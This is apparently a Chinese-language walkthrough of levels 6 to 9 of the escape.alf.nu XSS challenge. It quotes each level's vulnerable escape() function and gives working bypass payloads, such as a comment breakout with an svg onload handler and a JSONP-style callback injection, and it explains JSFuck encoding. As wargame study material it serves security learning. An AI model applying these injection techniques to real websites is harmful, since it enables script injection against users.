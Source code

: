 *<a href="http://escape.alf.nu/6">第6题</a>*

```
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
```
可以看到这题是以'#'为分隔符，前面部分与create拼接作为方法，后面部分则作为该方法的一个参数。差了些资料后发现这里使用的是createComment方法，即创建注释标签。后半部分闭合掉注释标签后就可以任意施为了。选一个字符相对较少的
```
Comment#><svg/onload=alert(1)
```

*<a herf="http://escape.alf.nu/7/">第7题</a>*

```
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/);

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/</g, '\\u003c');
  return "<script>" + thing[0] + "(" + json +")</script>";
}
```
这题跟之前的类似，也是以'#'为分隔符。虽然过滤了双引号但是依然可以使用单引号。
```
'#';alert(1)//
```

*<a href="http://escape.alf.nu/8">第8题</a>*

```
function escape(s) {
  // Courtesy of Skandiabanken
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```
这题将所有的字母替换成了大写形式，因此有两种思路，一是闭合script标签然后引用外部js，而是用<a href="http://www.jsfuck.com/">JSFUCK</a>。
JSFUCK的原理是用类似```[]['sort']['constructor'](alert(1))```的方式，通过构造字符串来执行相应的函数。而构造字符串需要的字母则通过将布尔值转为字符串后取字母的方式获取，例如字母'a'就可以用```(![]+[])[1]```来获取,字母'b'则可以用```(''+{})[2]```来获取。
参考资料：<a href="http://www.freebuf.com/articles/web/81688.html#rd">http://www.freebuf.com/articles/web/81688.html#rd</a>

*<a href="http://escape.alf.nu/9/">第9题</a>*

```
function escape(s) {
  // This is sort of a spoiler for the last level :-)

  if (/[\\<>]/.test(s)) return '-';

  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```
这题过滤的'<','>'所以不能引用外部JS。采用上一题的第二种方式即可。
